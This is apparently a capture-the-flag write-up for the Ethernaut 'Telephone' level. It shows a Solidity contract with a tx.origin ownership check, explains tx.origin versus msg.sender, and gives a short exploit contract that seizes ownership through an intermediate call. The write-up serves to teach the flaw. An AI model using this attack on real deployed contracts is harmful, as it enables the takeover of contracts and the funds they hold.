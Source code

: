 # Telephone

>Claim ownership of the contract below to complete this level.

>  Things that might help
> - See the "?" page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

According to solidity documentation, tx.origin holds the address of the sender of the transaction and msg.sender holds the address of the sender of the message.

In other words, tx.origin refers to the address of the account that brought about the transaction while msg.sender is the direct caller of the smart contract, it could be a contract address or an account address.

![ethernaut-2](https://github.com/blueh4mster/Ethernaut-writeups/assets/102573660/b13ddeec-fdd4-4ca3-81fa-73e0b847eeb2)

In this challenge, we come across a smart contract Telephone which has a chanegOwner function that compares tx.origin with msg.sender. If false, owner is changed to the address we provide else returned.

We can simply write another smart contract called exploit where we call the changeOwner function by instance of this contract provided to us.

When we do this, `tx.origin` is the account address which deploys the exploit contract and `msg.sender` is the address of the exploit contract.
The exploit contract can be written like this,

```solidity
contract exploit {
    Telephone telephone;

    constructor(address addr){
        telephone = Telephone(addr);
    }

    function attack() public {
        telephone.changeOwner(msg.sender);
    }
}
```

On calling the attack function, the owner of the telephone contract will be changed to our address(msg.sender). 

We can confirm so through the browser console and submit the instance.

(This exploit script can be deployed in remix IDE using Injected Web3 Provider MetaMask. Instance address of the challenge to be fed to the constructor.)

### Image Reference
[tx.origin vs msg.sender](https://davidkathoh.medium.com/tx-origin-vs-msg-sender-93db7f234cb9)
